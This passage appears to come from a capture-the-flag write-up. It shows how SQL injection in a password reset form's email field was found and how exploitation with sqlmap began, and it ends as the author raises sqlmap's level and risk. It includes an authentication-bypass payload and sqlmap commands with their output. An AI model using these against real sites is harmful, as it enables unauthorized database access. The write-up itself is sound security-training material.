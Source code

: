 #### Identify

I’ll always test every field I come across with a single quote to see if anything crashes. On the password reset form, on submitting `'` as the email, the page returns 500:

![image-20240712140630413](/img/image-20240712140630413.png)

That’s a good indication of SQL injection. It’s likely doing a query to look up the email address in the database. I can guess that looks like:

```

select * from users where email = '{my input}';

```

If that’s the case, if I send `' or 1=1 limit 1;-- -`, that would make:

```

select * from users where email = '' or 1=1;-- -';

```

It works:

![image-20240712141116401](/img/image-20240712141116401.png)

That’s SQL injection.

#### Exploitation

While what I send is displayed back, it doesn’t seem like any data from the database is. It seems the code is just checking the length of replies and showing the email that was submitted.

That means getting data out of this will require an error-based or blind injection. I’ll use `sqlmap` for that.

In Burp, I’ll find a legit (no SQL injection) POST to `/forgot-password`, right-click on the request, and “Copy to file”. `sqlmap` takes that and looks for injections:

```

oxdf@hacky$ sqlmap -r reset.request --batch
...[snip]...
[14:17:36] [WARNING] POST parameter 'email' does not seem to be injectable                 
[14:17:36] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
[14:17:36] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 40 times
...[snip]...

```

It fails. But I know this is injectable. I’ll try increasing the `level` and `risk` (and `threads` and tell it to focus on `email` to speed it up):
